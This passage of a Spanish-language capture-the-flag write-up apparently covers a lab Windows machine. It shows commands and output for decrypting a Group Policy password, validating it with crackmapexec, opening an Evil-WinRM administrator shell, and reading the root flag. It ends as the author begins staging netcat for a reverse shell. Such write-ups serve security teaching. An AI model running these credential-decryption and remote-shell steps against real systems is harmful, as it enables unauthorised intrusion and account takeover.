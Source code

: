 - Pero si vemos la contraseña esta encriptada y se puede desencriptar con `gpp-decrypt` aunque la herramienta ya no la dio en texto plano.

```bash
➜  content gpp-decrypt CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ
MyUnclesAreMarioAndLuigi!!1!
```

- Vamos a validar la contraseña.

```bash
➜  content crackmapexec smb 10.129.67.247 -u Administrator -p 'MyUnclesAreMarioAndLuigi!!1!' --local-auth
SMB         10.129.67.247   445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:QUERIER) (signing:False) (SMBv1:False)
SMB         10.129.67.247   445    QUERIER          [+] QUERIER\Administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)
```

- Gracias al output que nos dan **Pwn3d!** ya nos podemos conectar al servicio `winrm` empleando `evil-winrm`.

```bash
➜  content evil-winrm -i 10.129.67.247 -u Administrator -p 'MyUnclesAreMarioAndLuigi!!1!'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
querier\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root flag

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
38f63aa04664d186bccca4c48252e656
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## Explotando el SetImpersonatePrivilege

- Bueno explotar esto es muy fácil ya lo hemos echo muchas veces.

- Primero necesitamos traer ala maquina el `netcat` para Windows para ganar una `reverse shell`.

```bash
➜  content cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```
